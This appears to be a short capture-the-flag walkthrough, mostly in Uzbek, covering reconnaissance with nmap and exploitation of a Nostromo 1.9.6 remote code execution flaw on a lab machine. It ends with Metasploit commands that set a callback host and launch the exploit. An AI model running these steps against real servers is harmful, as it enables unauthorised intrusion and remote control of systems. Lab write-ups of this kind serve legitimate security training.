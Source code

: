 **Reconnaissance**  
`nmap -sV 10.129.1.193`  

![image](https://github.com/user-attachments/assets/d4b5a5f1-cc1f-49e9-a43c-cc3fa038a1cf)  

Port 80 ochiq bo‘lgani uchun brauzer orqali 10.129.1.193 IP-manzilini tekshirib chiqamiz, ammo foydali narsani topa olmaymiz.  

![image](https://github.com/user-attachments/assets/e0ffbe0d-c885-42ba-95b9-7b9182b5ea06)  

Zaiflikdan foydalanish uchun Metasploit Framework dan foydalanamiz. Biz `Nostromo <= 1.9.6` versiyasidagi masofadan kod bajarish (RCE) zaifligini ekspluatatsiya qiluvchi modulni topdik. Ushbu muammo nostromo nhttpd ning `http_verify` funksiyasidagi directory traversal tufayli yuzaga keladi, bu esa tajovuzkorga maxsus yaratilgan HTTP so‘rovi orqali masofadan kod bajarishga imkon beradi.  

```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.129.1.193
set lhost 10.10.14.52
exploit
